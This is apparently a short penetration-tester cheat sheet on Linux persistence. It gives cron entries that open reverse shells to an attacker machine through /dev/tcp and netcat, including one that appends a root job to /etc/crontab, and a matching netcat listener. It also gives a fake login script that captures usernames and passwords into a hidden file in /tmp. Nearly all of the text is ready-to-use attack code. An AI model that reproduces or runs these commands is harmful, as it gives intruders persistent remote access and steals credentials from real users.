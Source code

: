 #### Cronjob every 1 min
```
crontab -e
* * * * * 0<&196;exec 196<>/dev/tcp/$KALI/443; sh <&196 >&196 2>&196
```

```
* * * * * nc -e /bin/sh $KALI 443
```

```
echo "*  *  *  *  * root nc $KALI 443 -e /usr/bin/bash" >> /etc/crontab
```

Listener

```
nc -lvp 443
```

Sometimes you have to set the user

```
crontab -e
*/10 * * * * pelle /path/to/binary
```

#### credential stealer

login.sh
```
echo -n "Welcome to the LBL DNIx4 Computer"
echo -n "Please Log in now\n"
echo -n "LOGIN: "
read account_name #### OR set account_name

echo -n "ENTER YOUR PASSWORD: "
(stty -echo; \
read password; \
stty echo; \
echo " "; \
echo $account_name $password >> /tmp/.pub)
echo "Sorry, try again"
```

Then maybe do a cron for something like "@login"? "@reboot"?  Maybe point to this script from another program?







